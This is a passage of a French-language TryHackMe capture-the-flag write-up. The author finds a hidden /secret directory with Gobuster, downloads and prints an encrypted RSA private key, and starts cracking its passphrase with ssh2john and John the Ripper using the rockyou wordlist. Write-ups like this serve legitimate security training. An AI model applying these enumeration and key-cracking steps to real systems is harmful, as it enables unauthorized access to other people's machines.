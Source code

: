Avec Gobuster on trouve un répertoire \/secret     

![page2](./Task1-02.png)

On trouve clef.    

``tim@kali:~/Bureau/tryhackme/write-up$ wget  http://gamingserver.thm/secret/secretKey -nv
2021-08-06 09:02:57 URL:http://gamingserver.thm/secret/secretKey [1766/1766] -> "secretKey" [1]
`bash

tim@kali:~/Bureau/tryhackme/write-up$ cat secretKey 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

On télécharge une clef, on voit que c'est une clef privée.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ /usr/share/john/ssh2john.py secretKey > hash

tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
```